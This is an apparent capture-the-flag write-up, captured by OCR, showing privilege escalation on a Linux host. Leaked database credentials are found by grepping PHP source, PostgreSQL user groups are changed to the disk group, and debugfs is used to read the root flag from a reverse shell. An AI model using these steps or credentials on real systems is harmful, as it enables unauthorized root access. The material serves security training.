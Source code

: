 ```
./admin/pages/actions.php:122:  echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
./admin/pages/actions.php:127:  $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
./admin/pages/actions.php:128:  $result = pg_prepare($dbconn, "q1", "delete from passwd_table where uid = $1");
./intra/init.php:5:$dbpass='LOSPxnme4f5pH5wp';
./intra/pages/login.php:7:echo "<tr><td align='right'>Password</td><td><input type='password' name='pass'></input></td></tr>";
./intra/pages/actions.php:16:   if(!isset($_POST['pass']) and !isset($_POST['user'])){
./intra/pages/actions.php:23:   $pass=$_POST['pass'];
./intra/pages/actions.php:26:   $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./intra/pages/actions.php:27:   $sql=$mysqli->prepare("SELECT id, password, mail, role FROM users WHERE username = ?");
./intra/pages/actions.php:39:   if(password_verify($pass,$hash)){
./intra/pages/actions.php:95:           $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./intra/pages/app.php:4:        $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./intra/pages/app.php:22:       $conn = new mysqli($dbhost, $dbuser, $dbpass, $dbname);
./intra/pages/app.php:33:               $mysqli = new mysqli($dbhost, $dbuser, $dbpass, $dbname);

```

We find some unexplored db:
```
"host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&



INSERT INTO passwd_table (username, passwd, uid, gid, homedir, shell)

```


**test : LJvin5d6**

We can now modify the gid to add all the created users to disk group, which is quite exploitable.
To do so we connect to postgresql and run the following query
```
update passwd_table set gid=6 where gid=1001
```

Then we can log into the new user test from the penelope reverse shell to debug the filesystem and gain root access:
```
su test

df -h # shows the fs device

debugfs /dev/sda1
debugfs: cat /root/root.txt

c0644...
```